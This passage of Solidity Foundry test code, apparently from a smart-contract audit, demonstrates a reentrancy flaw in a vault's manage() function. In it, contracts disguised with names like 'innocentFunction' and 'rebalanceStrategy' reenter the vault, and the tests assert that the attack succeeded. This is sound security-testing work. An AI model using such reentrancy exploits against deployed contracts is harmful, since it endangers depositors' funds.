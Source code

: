 ```solidity
bytes memory data = abi.encodeCall(MaliciousContract.innocentFunction, (1000));
vault.manage(address(malicious), data, 0);

// Verify the attack was successful
console.log("=== After Attack ===");
console.log("Malicious contract attack executed:", malicious.attackExecuted());
console.log("Reentrancy calls made:", malicious.reentryCount());

// The attack should have succeeded in making reentrant calls
assertTrue(malicious.attackExecuted(), "Attack should have executed");
assertGt(malicious.reentryCount(), 0, "Should have made reentrant calls");

// The key vulnerability: External contract was able to call back into vault
// while vault was in the middle of executing manage()
console.log("VULNERABILITY DEMONSTRATED: External contract successfully reentered vault during manage() execution");

}

function test_manage_during_fulfillment_critical() public {
    // Setup deposits
    vm.prank(Alice);
    vault.requestDeposit(100 ether);
    
    MaliciousContractCritical malicious = new MaliciousContractCritical();
    
    vm.startPrank(Manager);
    accountant.setNav(100 ether);
    
    console.log("Pre-manage state:");
    console.log("- Queued deposit:", vault.queuedDeposit(Alice, 0));
    console.log("- Deposit epoch:", vault.depositEpoch());
    
    // Manager thinks they're calling a rebalancing protocol
    bytes memory data = abi.encodeCall(MaliciousContractCritical.rebalanceStrategy, ());
    vault.manage(address(malicious), data, 0);
    
    console.log("Post-manage state:");
    console.log("- Attack executed:", malicious.attackExecuted());
    console.log("- Deposit epoch:", vault.depositEpoch());
    
    // Now continue with fulfillment - but state might be corrupted
    vault.fulfillDeposits(100 ether, "");
    
    vm.stopPrank();
    
    assertTrue(malicious.attackExecuted(), "Attack should have executed");
}

function test_manage_between_operations() public {
    // Setup: Alice has shares and requests withdrawal
    vm.prank(Alice);
    vault.requestDeposit(100 ether);
    
    vm.startPrank(Manager);
    accountant.setNav(100 ether);
    vault.fulfillDeposits(100 ether, "");
    vault.executeDeposit(Alice, 0);
    vm.stopPrank();
    
    // Alice requests withdrawal
    uint256 aliceShares = vault.balanceOf(Alice);
    vm.prank(Alice);
```